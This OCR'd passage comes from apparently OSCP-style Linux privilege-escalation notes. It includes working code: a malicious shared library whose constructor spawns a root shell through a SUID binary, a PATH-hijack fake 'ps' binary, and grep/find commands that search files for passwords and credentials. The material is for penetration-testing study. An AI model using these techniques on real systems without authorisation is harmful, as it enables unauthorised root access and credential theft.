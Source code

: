 on the SUID file:$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file" access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory) ... open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.3. Create the /home/user/.config directory4. Create the file** libcalc.c** with the following contents:#include <stdio.h> #include <stdlib.h> static void inject() __attribute__((constructor)); void inject() { setuid(0); system("/bin/bash -p"); }5. Compile **libcalc.c** into /home/user/.config/libcalc.so:gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c6. Run the **SUID** executable to get a root shell:/usr/local/bin/suid-so
## Path Manipulation[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#path-manipulation)
It is very simple to view the Path of the relevant user with help of echo command.$ echo $PATH​/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
#### Exploitation -[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#exploitation)
If you find that you can **write inside some folder of the $PATH** you may be able to escalate privileges by **creating a backdoor inside the writable folder** with the name of some command that is going to be executed by a different user (root ideally) and that is **not loaded from a folder that is located previous** to your writable folder in $PATH.**Example -**we came with one suid that executing some other binariesfind / -perm -u=s -type f 2>/dev/null![media-XLmvtA](../media/media-XLmvtA.png)
![media-kZIMbU](../media/media-kZIMbU.png)
so it's executing **/bin/ps** binary to get process status
, so what we can do is , make our **own ps** binary containing malicious payload and execute it with adding PATH to it**Creating malicious binary -**cd /tmp​echo "/bin/bash" > ps​chmod +x ps**Exporting current path in front -**echo $PATH​export PATH=/tmp:$PATHit will add **/tmp** in front of **PATH variable** so now if someone execute that binary it will try to run 
```
ps
```
and thus our own ps binary executed giving us 
```
root
```
access
## Passwords and configs[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#passwords-and-configs)

### Finding different information[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#finding-different-information)
**Scan for password or credential word in files**

    grep -rnw / -e 'password\|pass\|creds\|credentials' 2>/dev/null -i​
    find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;​
    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
 
#### Find all directories which can be written to[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#find-all-directories-which-can-be-written-to)
find / -executable -writable -type d 2> /dev/null**Find all writable files and readable files **find /etc -maxdepth 1 -writable -type f# Search for writable files in /etc​find /etc -maxdepth 1 -readable -type f# Search for readable files in /etc
### Configs[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#configs)